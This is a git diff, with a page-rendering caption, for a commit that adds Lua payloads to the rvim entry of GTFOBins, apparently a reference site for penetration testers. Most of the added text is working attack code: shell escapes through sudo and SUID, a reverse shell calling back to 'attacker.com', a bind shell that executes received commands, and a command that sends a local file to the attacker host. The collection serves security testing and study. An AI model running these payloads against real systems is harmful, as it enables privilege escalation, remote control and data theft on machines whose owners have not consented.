

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rvim.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add Lua payloads to rvim

```diff
--- a/_gtfobins/rvim.md
+++ b/_gtfobins/rvim.md
@@ -3,6 +3,8 @@ functions:
   shell:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
+    - description: This requires that `rvim` is compiled with Lua support.
+      code: rvim -c ':lua os.execute("reset; exec sh")'
   reverse-shell:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
       code: |
@@ -13,6 +15,29 @@ functions:
         [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
         pty.spawn("/bin/sh")
         vim.command(":q!")'
+  non-interactive-reverse-shell:
+    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        rvim -c ':lua local s=require("socket"); local t=assert(s.tcp());
+          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          while true do
+            local r,x=t:receive();local f=assert(io.popen(r,"r"));
+            local b=assert(f:read("*a"));t:send(b);
+          end;
+          f:close();t:close();'
+  non-interactive-bind-shell:
+    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
+      code: |
+        export LPORT=12345
+        rvim -c ':lua local k=require("socket");
+          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local c=s:accept();
+          while true do
+            local r,x=c:receive();local f=assert(io.popen(r,"r"));
+            local b=assert(f:read("*a"));c:send(b);
+          end;c:close();f:close();'
   file-upload:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
@@ -31,6 +56,19 @@ functions:
         else: import SimpleHTTPServer as s, SocketServer as ss
         ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
         vim.command(":q!")'
+    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_send
+        rvim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
+          local d=f:read("*a")
+          io.close(f);
+          local s=require("socket");
+          local t=assert(s.tcp());
+          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          t:send(d);
+          t:close();'
   file-download:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
       code: |
@@ -41,6 +79,18 @@ functions:
         else: import urllib as r
         r.urlretrieve(e["URL"], e["LFILE"])
         vim.command(":q!")'
+    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
+      code: |
+        export LPORT=12345
+        export LFILE=file_to_save
+        rvim -c ':lua local k=require("socket");
+          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local c=s:accept();
+          local d,x=c:receive("*a");
+          c:close();
+          local f=io.open(os.getenv("LFILE"), "wb");
+          f:write(d);
+          io.close(f);'
   file-write:
     - description: This requires that rvim is compiled with Python support. Prepend `:py3` for Python 3.
       code: |
@@ -59,7 +109,12 @@ functions:
   sudo:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
+    - description: This requires that `rvim` is compiled with Lua support.
+      code: sudo rvim -c ':lua os.execute("reset; exec sh")'
   capabilities:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: ./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
+  limited-suid:
+    - description: This requires that `rvim` is compiled with Lua support.
+      code: ./rvim -c ':lua os.execute("reset; exec sh")'
 ---
```
